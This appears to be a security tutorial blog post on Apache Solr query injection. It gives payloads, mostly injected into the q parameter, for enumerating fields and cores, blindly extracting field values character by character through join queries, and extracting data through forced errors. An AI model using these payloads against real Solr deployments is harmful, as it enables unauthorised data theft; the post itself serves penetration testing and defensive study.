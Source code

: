```yaml
---
layout: default
title: Solr Query Injection
categories: security
---
```


# Solr Query Injection

[Apache Solr](https://solr.apache.org/) is a NoSQL datastore that is typically used as an enterprise search platform.

Most resources on Solr injection seem to be about CVEs or [injecting additional parameters](https://github.com/veracode-research/solr-injection) into calls to the Solr REST API. This post covers some techniques you can use when you only have control over the q parameter and are interested in extracting data from the index itself.

The techniques may not be applicable in newer versions of Solr as the [default settings were changed](https://lucene.apache.org/solr/guide/8_6/major-changes-in-solr-8.html#solr-7-2) in Solr 7.2 to limit when switching query parsers is allowed. These techniques may still work if the target has `luceneMatchVersion` set to 7.1.0 or lower in their solrconfig.xml file.

For the purposes of this post we'll assume the query you're injecting into looks like this:

```
somefield:INJECTIONPOINT
```

## Basics

Solr supports running multiple indexes, called cores, with separate configurations on the same server. This section covers techniques where the information you want is in the same core as the query injection location.

### Enumerate available fields in the current core

This is a brute force guessing game.

```
* AND FIELDNAMEGUESS:*
```

If you still get results, the field exists. If you get an error or no results, the field doesn't exist.

### Extract query parameters

Determining the value of the [common query parameters](https://lucene.apache.org/solr/guide/8_6/common-query-parameters.html) will help you understand the context your query is in.

```
* AND {!switch case='notarealfieldthiswillerrorout:5' case.1='*:*' v=$rows}
```

if `$rows` exists and equals 1, this will work, otherwise you will get an error.

### Field values extraction

Solr supports [limited join functionality](https://solr.apache.org/guide/8_11/other-parsers.html#join-query-parser) that is similar to an SQL inner-query.

The following query
```
* AND {!join from=knownfield to:knownfield v='other_condition'}
```

is [roughly equivalent to this SQL](https://lucene.apache.org/solr/guide/8_6/other-parsers.html#join-query-parser)

```sql
SELECT *
FROM current_core
WHERE knownfield IN (SELECT knownfield
                     FROM current_core
                     WHERE other_condition)
```

If your query returns any results you know that there was a row in the table where `other_condition` was true.

Similar to blind SQL injection, you can use this by making other_condition increasily specific until it matches only one record and then brute force values of additional fields on the record using wildcards.

```
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:m*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:ma*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:mag*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:magi*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:magic'}
```

### Unencumbered subquery

The following query

```
condition AND {!join from=field_on_current_core to=field v="{!join from=any_field_on_current_core to=any_field_on_current_core v='other_condition'}"}
```

is roughly equivalent to

```sql
SELECT *
FROM current_core
WHERE condition AND
      field IN (SELECT field_on_current_core
                FROM current_core
                WHERE any_field_on_current_core IN (SELECT any_field_on_current_core
                                                  FROM current_core
                                                  WHERE other_condition))
```

With appropriate choice of fields, the query comes down to whether there is any row in `current_core` where `other_condition` is true.

## Working across cores

Solr joins can be used to extract data from cores other than one currently being queried.

### Enumerate other cores in the index

This is a brute force guessing game. You have to guess both the name of the other core and the name of a field in it in one go.

If you found any generic-sounding field names in the previous section like `id`, I recommend you assume other cores have that field and just guess core names.

```
* AND {!join from=KNOWNFIELD fromIndex=CORENAMEGUESS to:KNOWNFIELD v='*:*'}
```

### Cross-core field value extraction

After enumerating some other cores and fields, you can modify the join to extract values from joined documents.

The following query:

```
* AND {!join from=field_on_other_core fromIndex=other_core to:KNOWNFIELD v='other_condition'}
```

is roughly equivalent to

```sql
SELECT * FROM current_core
WHERE KNOWNFIELD IN (SELECT field_on_other_core
                     FROM other_core
                     WHERE other_condition)
```

### Unencumbered subquery

The following query

```
condition AND {!join from=field_on_other_core fromIndex=other_core to=field v="{!join from=any_field_on_other_core fromIndex=other_core to=any_field_on_other_core v='other_condition'}"}
```

is roughly equivalent to

```sql
SELECT *
FROM current_core
WHERE condition AND
      field IN (SELECT field_on_other_core
                FROM other_core
                WHERE any_field_on_other_core IN (SELECT any_field_on_other_core
                                                  FROM other_core
                                                  WHERE other_condition))
```

With appropriate choice of fields, the query comes down to whether there is a row in `other_core` where `other_condition` is true.

## Fully blind injection

Sometimes a site is querying Solr behind the scenes with user input but the results are never shown to the user. If you find an injection point in such a query, it may still be possible to extract information by triggering an Internal Sever Error if the query result set is empty.

```
* AND {!frange l=1 v='def(query({!edismax v="SOMECONDITION*"}),"a")'}
```

The [frange](https://solr.apache.org/guide/8_11/other-parsers.html#function-range-query-parser) query parser expects a number as input. With this query, if `SOMECONDITION` matches something, [def](https://solr.apache.org/guide/8_11/function-queries.html#def-function) passes the document score to frange, otherwise it passes the string "a" which causes an error.